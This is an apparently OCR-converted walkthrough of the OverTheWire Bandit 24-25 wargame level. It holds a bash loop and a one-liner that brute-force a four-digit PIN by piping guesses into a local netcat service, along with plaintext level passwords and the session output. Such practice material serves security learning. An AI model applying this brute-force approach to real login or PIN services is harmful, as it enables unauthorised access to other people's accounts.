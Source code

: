  
## Bandit24
 
  
ssh bandit24@bandit.labs.overthewire.org -p 2220  
  
\#\#\#\#\#\#\#  
  
\#!/bin/bash  
  
pass24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  
  
for a in {0..9}{0..9}{0..9}{0..9}  
do  
 echo "Attempting PIN: $a"  
  
 attempt="$\(echo $pass24 $a \| nc localhost 30002\)"  
  
 if ! \[\[ $attempt == \*"Wrong!"\* \]\]; then  
  
 echo -ne "$attempt"  
  
 break  
  
 fi  
done  
  
\#\#\#\#\#\#  
  
echo "" &gt; pins && for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i &gt;&gt; pins; done && cat pins \| nc localhost 30002  
  
  
\#\#\#\#\#\#  
  
Exiting.bandit24@bandit:/tmp/pvieira24$ nc localhost 30002  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5440  
Correct!  
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
  
Exiting.  
  
  
 
## Bandit25
 
  
ssh bandit25@bandit.labs.overthewire.org -p 2220  
  
  
  
  
  
  
  



